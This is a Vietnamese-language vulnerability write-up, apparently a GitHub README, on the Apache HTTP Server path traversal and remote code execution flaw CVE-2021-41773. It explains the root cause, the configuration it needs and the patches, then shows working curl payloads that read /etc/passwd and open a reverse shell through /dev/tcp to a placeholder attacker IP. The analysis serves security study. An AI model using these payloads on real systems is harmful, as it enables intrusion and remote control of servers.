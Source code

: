 ### Tổng Quan
CVE-2021-41773, Apache HTTP Server (2.4.49, 2.4.50) dễ bị tấn công thực thi Path Traversal và Remote Code. 
Lỗ hổng cho phép người dùng có thể xác định được bất kì tệp tin nào trên server có tồn tại hay không, bao gồm cả các tệp tin bên ngoài thư mục web của server. 
Lỗ hổng còn cho phép thực thi các lệnh tuỳ ý dựa trên thư mục `bin/sh`.

Theo NVD lỗ hổng có các thông tin cơ bản như sau:
|  |  |
| ----- | ----- |
| CSV Score | 7.5 |
| Mức độ | Hight |
| Nền tảng | Apache http server  |
| Loại lỗ hổng | Path Traversal, Remote Code Execution |
| Phiên bản ảnh hưởng | 2.4.49, 2.4.50 |
|   |   |
### Phân tích chi tiết
##### Nguyên nhân
Theo code của phiên bản ta có thể thấy được code chuẩn hóa URL như sau:

![image](https://user-images.githubusercontent.com/63194321/160319926-a4396731-f3fb-4fc5-9d2d-b93cfbdf9e14.png)

Nguyên nhân dẫn đến lỗ hổng là các nhà phát triển đã thêm 1 số thay đổi trong mã nguồn chuẩn hóa đường dẫn 
(loại bỏ đi các phần không mong muốn hoặc nguy hiểm trong URL) nhưng Web server không thể phát hiện ra các 
ký tự được truyền qua URL dưới dạng `dot-dot-slash (../)`. Chức năng chuẩn hóa đường dẫn trong ứng dụng chịu 
trách nhiệm giải mã các giá trị được mã hóa ở URL, từ URl ngăn chặn việc lợi dụng lỗ hổng Path traversal. 
Chức năng này có thể dễ dàng vượt qua khi kẻ tấn công mã hóa thành `%2e` ở dấu chấm thứ 2. 
Từ đó kẻ tấn công có thể chuyển `../` thành `.%2e/` để thực hiện việc tấn công.

Ngoài ra để thành công khai thác thì trong file cấu hình của Apache http server (`httpd.conf`) cần được cấu hình `directory directive` 
cho toàn bộ hệ thống là `Require all granred` hay loại bỏ toàn bộ cấu hình `directory`.

Cấu hình hệ thống dễ bị tấn công trong file `httpd.conf`:

![image](https://user-images.githubusercontent.com/63194321/160323468-695e2817-4395-4262-a049-b5590b3f6f38.png)

Hoặc

![image](https://user-images.githubusercontent.com/63194321/160554310-81be7381-8468-4baf-a5aa-06fe2093b86b.png)


**Chú ý:** Theo mặc định thì toàn bộ file hệ thống,` directory directive` của Apache http Server sẽ là `Require all denied` 
vì vậy lỗ hổng này cần sự tương tác của người dùng để thay đổi file config của hệ thống.

Tiếp đến để có thể tấn công được `remote code execution` thì module `mod_cgi` phải được bật trên cấu hình của Web Server 
(Mô-đun `mod_cgi` cung cấp để thực hiện các tập lệnh CGI. Bất kỳ tệp nào có cgi-script sẽ được xử lý dưới dạng tập lệnh CGI và được điều hành bởi máy chủ, 
với đầu ra của nó được trả lại cho khách hàng. Các tệp có được loại này bằng cách có tên chứa phần mở rộng được xác định bởi chỉ thị AddHandler hoặc 
bằng cách nằm trong thư mục ScriptAlias.). Từ đó kẻ tấn công có thể thêm để thực hiện việc thực thi mã từ xa thông qua lỗ hổng Pạt Travelsal bằng cách 
gọi tới các thư viện trên server với http `Post request`.  
Cấu hình dễ bị tấn công trong file `httpd.conf`:

![image](https://user-images.githubusercontent.com/63194321/160555252-9d7be36f-a86b-4421-98cb-94bc27edb5fc.png)

**Chú ý:** Cũng giống như Path Traversal theo mặc định thì toàn bộ file hệ thống,`modules mod_cgi` của Apache http Server sẽ 
không được kích hoạt vì vậy lỗ hổng này cần sự tương tác của người dùng để thay đổi file config của hệ thống.

##### Bản vá của Apache
Ngay sau khi nhận được thông tin về lỗ hổng này thì vào ngày 4/10 Apache đã phát hành bản cập nhật 
[2.4.50](https://github.com/apache/httpd/commit/e150697086e70c552b2588f369f2d17815cb1782) để tiến hành vá lỗ hổng. 
Chi tiết bản vá như sau:

![image](https://user-images.githubusercontent.com/63194321/160735026-31837607-9894-426b-8d08-018425672156.png)

Để ngăn chặn các cuộc tấn công đi qua đường dẫn, chức năng chuẩn hóa có trách nhiệm giải quyết các giá trị được mã 
hóa URL từ URI được yêu cầu, giải quyết từng giá trị Unicode một. Do đó, khi URL mã hóa dấu chấm thứ hai , logic không nhận 
ra là dấu chấm do đó không giải mã nó, điều này chuyển đổi các ký tự thành và bỏ qua kiểm tra`.%2e/.%2e/.%2e/`Bản vá này sửa đổi 
lại bằng cách decode hết các ký tự Unicode trên URL và thực hiện loại bỏ logic đi qua đường dẫn khỏi URI được yêu cầu.

Tuy nhiên kẻ tấn công vẫn có thể thực hiện việc bypass điều này.

→ Kẻ tấn công có thể sử dụng kỹ thuật double encode URL để tiếp tục bypass.

      ⇒ ".%2e/" ←**Double Encode**→ %%32%65%%32%65/

      ⇒ Double Encoding: 
    - . → %2e → %%32%65
    - 2 → %32
    - e → %65
    - % → %

⇒  Điều này dẫn đến 1 lỗ hổng tương tự là CVE-2021-42013 và ngay lập tức họ phát hành bản mới để loại bỏ lỗ hổng này trên bản apache 
http server 2.4.51

Bản vá [2.4.51](https://github.com/apache/httpd/commit/48b5dfd6968cb076537b605d368d5fd889ebae86) được cập nhật ngày 7/10 đã thực hiện 
1 số sửa đổi để củng cố lại việc xác minh URL trong funtion `ap_normalize_path`

![image](https://user-images.githubusercontent.com/63194321/160736715-c526c8e2-cfbb-4a61-8e42-6ef659f24de4.png)

Thay đổi này sẽ thực hiện việc trả về lỗi mã hóa nếu như URL không được chuẩn hóa (`% + 2 ký tự thập lục phân`)

### Demo tấn công
#### Môi trường
> Linux

> Apache http sever 2.4.49

Mặc định của Apache là không thể nào tác động ra các directory ở ngoài Web Root. Nhưng với module/mod_alias.so thì chúng ta 
có thể tác động tới các directory bên ngoài nhờ vào ScriptAlias hoặc Alias (The directive cho phép các tài liệu được lưu trữ 
trong hệ thống tệp cục bộ khác với dưới DocumentRoot. URL có đường dẫn (%-decode) bắt đầu bằng giá trị của tham số đường dẫn URL 
sẽ được ánh xạ đến các tệp cục bộ bắt đầu bằng giá trị của tên tệp thư mục. Alias cũng cho phép bạn ẩn đường dẫn hệ thống tệp khỏi người dùng, 
tăng cường cả bảo mật cho máy chủ của bạn và khả năng thay đổi cấu trúc hoặc đường dẫn hệ thống tệp mà không ảnh hưởng đến người dùng cuối.). 

Cụ thể là:

![image](https://user-images.githubusercontent.com/63194321/160740657-2c3c731b-2ba0-421c-9d64-e72719043123.png)

Hơn thế nữa mặc định /cgi-bin/ sẽ map với /usr/local/apache2/cgi-bin nên hoàn toàn có thể craft được payload Path Traversal từ đây.

#### Path Traversal
1. Chỉnh sửa file `httpd.conf` bật `drectory directive` thành `Require all granred` để cho phép truy cập vào tất cả đường dẫn.

    ![image](https://user-images.githubusercontent.com/63194321/160323468-695e2817-4395-4262-a049-b5590b3f6f38.png)

2. Khởi động lại Apache server và dùng `Curl` với phương thức GET để attack.

Payload Path Traversal (thực hiện tại localhost):

> curl http://demo.cve2021-41773:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

> ![image](https://user-images.githubusercontent.com/63194321/160744481-9b403b12-9457-4ed8-9ca4-310f277acafe.png)

#### Remote Code Execution
1. Chỉnh sửa file `httpd.conf` bật module CGI lên.

    ![image](https://user-images.githubusercontent.com/63194321/160555252-9d7be36f-a86b-4421-98cb-94bc27edb5fc.png)

2.  Apache HTTP Server có 1 tính năng sẽ ghi nhận các giá trị của các parameter và đẩy tất cả vào STDIN dẫn tới việc ta có thể vừa thực thi 
1 binary trên server, vừa có thể truyền parameter cho binary đó. Vì vậy ta sẽ tận dụng điều này để đọc 1 file nhị phân và truyền vào các tham số mong muốn bằng `Curl POST`.

Payload demo:

> curl 'http://demo.cve2021-41773:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo; bash -i >& /dev/tcp/`IP-ATTACKER`/`PORT` 0>&1'

>![image](https://user-images.githubusercontent.com/63194321/160746603-183289e6-5bd5-4d5e-b6c1-439b2c8d3e1d.png)


### Tài liệu tham khảo

1. https://nvd.nist.gov/vuln/detail/CVE-2021-41773
2. https://twitter.com/h4x0r_dz/status/1445384417908862977?s=20
3. https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013
4. https://github.com/apache/httpd






    